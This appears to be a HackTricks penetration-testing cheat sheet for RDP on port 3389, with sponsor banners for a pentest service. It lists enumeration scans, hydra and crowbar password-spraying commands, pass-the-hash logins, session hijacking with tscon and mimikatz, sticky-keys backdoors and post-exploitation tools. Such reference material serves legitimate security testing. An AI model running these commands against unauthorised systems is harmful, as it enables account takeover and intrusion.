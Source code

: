 # 3389 - Pentesting RDP


<figure><img src="../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/" %}

## Basic Information

Developed by Microsoft, the **Remote Desktop Protocol** (**RDP**) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, **RDP** client software is utilized by the user, and concurrently, the remote computer is required to operate **RDP** server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

**Default port:** 3389

```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```

## Enumeration

### Automatic

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Be careful, you could lock accounts**

### **Password Spraying**

**Be careful, you could lock accounts**

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### Connect with known credentials/hash

```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```

### Check known credentials against RDP services

rdp\_check.py from impacket let you check if some credentials are valid for a RDP service:

```bash
rdp_check <domain>/<name>:<password>@<IP>
```

<figure><img src="../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/" %}

## **Attacks**

### Session stealing

With **SYSTEM permissions** you can access any **opened RDP session by any user** without need to know the password of the owner.

**Get openned sessions:**

```
query user
```

**Access to the selected session**

```bash
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

**Important**: When you access an active RDP sessions you will kickoff the user that was using it.

You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

#### **Mimikatz**

You could also use mimikatz to do this:

```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```

### Sticky-keys & Utilman

Combining this technique with **stickykeys** or **utilman you will be able to access a administrative CMD and any RDP session anytime**

You can search RDPs that have been backdoored with one of these techniques already with: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

If someone from a different domain or with **better privileges login via RDP** to the PC where **you are an Admin**, you can **inject** your beacon in his **RDP session process** and act as him:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group

```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```

## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** is a post-exploitation framework created in Powershell, designed primarily to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to **view his victim's desktop without his consent**, and even control it on demand, using tools native to the operating system itself.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
  * Control mouse and keyboard in an automated way from command line
  * Control clipboard in an automated way from command line
  * Spawn a SOCKS proxy from the client that channels network communication to the target via RDP
  * Execute arbitrary SHELL and PowerShell commands on the target without uploading files
  * Upload and download files to/from the target even when file transfers are disabled on the target

## HackTricks Automatic Commands

```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for RDP
  Note: |
    Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device. 

    https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
  Name: Nmap
  Description: Nmap with RDP Scripts
  Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```

<figure><img src="../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Instantly available setup for vulnerability assessment & penetration testing**. Run a full pentest from anywhere with 20+ tools & features that go from recon to reporting. We don't replace pentesters - we develop custom tools, detection & exploitation modules to give them back some time to dig deeper, pop shells, and have fun.

{% embed url="https://pentest-tools.com/" %}

